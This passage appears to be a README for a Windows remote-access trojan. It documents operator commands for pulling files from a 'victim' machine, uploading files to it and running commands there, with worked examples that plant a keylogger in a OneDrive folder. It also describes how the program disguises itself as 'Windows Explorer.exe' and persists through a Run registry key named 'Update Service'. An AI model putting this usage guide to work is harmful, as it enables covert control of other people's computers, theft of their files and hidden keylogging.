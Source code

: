 * <code>-l</code> or <code>--local</code> do local command
* <code>--no_split</code> don't split command
* <code>download file_name</code>(file will be download from victim to your working directory)
* <code>upload file_name</code>(file will be upload to target machine to it wotking directory)
* <code>& command</code> Don't wait for the result , simply pass the command to the victim
* <code> exit </code> (Don't close connection without exit)
## Some Examples
1. ***-l cd /home/username/Desktop*** (change directory in local machine, in our case: attack machine)
2. ***dir*** (command for target machine , in our case: WIndows)
3. ***download sample.exe*** (Download file sample.exe from victim(file sample.exe must be in victim local directory) to attacker to his/her working directory: in out case it's: /home/username/Desktop)
4. ***cd C:\Users\admin\AppData\Local\Microsoft\OneDrive*** (change working victim directory)
5. ***upload keylogger.exe*** (Upload file: keylogger exe from attacer(keylogger.exe must be in ouer working directory again, our case: /home/username/Desktop) to victim working directory(C:\Users\AppData\Local\Microft\OneDrive)
6. ***cd C:\Program Files\Google\Chrome\Application***</br>
   ***& chrome.exe some_link***( Start command in background, if you don't do this you will wait for the result of victim computer, and it give you result only when  vectim user close chrome.exe)
  7. ***--no_split C:Program Files\Google\Chrome\Application\chrome.exe***(Don't split command , so in our case command sends as ["C:ProgramFiles\Google\Chrome\Application\chrome.exe"]. Int's working with ***cd*** also because cd don't split the rest of the command after intself for default.(["cd"," C:Program Files\Google\Chrome\Application\chrome.exe"]
  8. If you put incorrect command , program hasn't closed. It give you message of error
  9. The main concept is : Victim always waiting . Close connection correct from attacker , using exit
  ## And one more think ##
  * In first start , if you running exe file , file copyied itself in C:\Users\admin\AppData\Windows Explorer.exe
  * It adding itself to auto-upload(HKCU - > Software -> Microsoft -> Windows -> CurrentVersion -> Run ; named Update Service)
